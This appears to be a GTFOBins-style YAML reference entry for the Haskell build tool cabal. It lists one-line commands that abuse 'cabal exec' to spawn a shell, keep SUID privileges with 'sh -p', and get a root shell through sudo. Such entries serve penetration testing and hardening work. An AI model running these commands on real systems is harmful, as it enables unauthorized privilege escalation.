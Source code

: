 ```yaml
---
functions:
  shell:
    - code: cabal exec -- /bin/sh
  suid:
    - code: ./cabal exec -- /bin/sh -p
  sudo:
    - code: sudo cabal exec -- /bin/sh
---
```

